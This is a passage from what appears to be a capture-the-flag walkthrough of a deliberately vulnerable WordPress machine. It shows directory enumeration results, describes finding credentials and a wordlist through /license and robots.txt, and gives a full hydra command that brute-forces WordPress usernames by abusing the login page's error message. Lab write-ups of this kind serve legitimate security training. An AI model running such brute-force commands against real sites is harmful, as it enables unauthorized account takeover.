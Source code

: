 ```
/index.php (Status: 301)
/intro (Status: 200)
/js (Status: 301)
/license (Status: 200)
/login (Status: 302)
/page1 (Status: 301)
/phpmyadmin (Status: 403)
/rdf (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/robots.txt (Status: 200)
/rss (Status: 301)
/rss2 (Status: 301)
/sitemap (Status: 200)
/sitemap.xml (Status: 200)
/video (Status: 301)
/wp-admin (Status: 301)
/wp-config (Status: 200)
/wp-content (Status: 301)
/wp-cron (Status: 200)
/wp-includes (Status: 301)
/wp-load (Status: 200)
/wp-links-opml (Status: 200)
/wp-login (Status: 200)
/wp-signup (Status: 302)
=====================================================
2024/01/26 10:49:20 Finished
=====================================================
```

Wow, that's along list, let's start working our way down. The first interesting file I found was `/license`, which contains some text that looks like bas64 at the bottom of the file. Sure enough, after decoding the base64 we found a username/password combination!

The next interesting file I found was `/robots.txt`, which references two different files: `fsocity.dic` and `key-1-of-3.txt`. These contain a username/password list, and our first key!

We also found from our web server enumeration many standard directories for a wordpress site. Let's try the credientials we found previously on the login page: `/wp-login`.

## 2.5 (Alternate Method) Brute Force

Although you can find the Wordpress credentials in the `/license` file, I also found an alternate way that uses the `fsocity.dic` file that was provided: brute force.

I noticed while exploring the login page at `/wp-login` that the error message specifically stated that the username I provided was incorrect. This makes a username/password combination much easier to brute force because we can do them one at a time instead of having to guess both correctly at the same time. I'll use `hydra` to brute force the username.

```
$ hydra -L fsocity.dic -p password <ip-address> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=Invalid username" -v
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 11:59:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://<ip-address>:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=Invalid username
```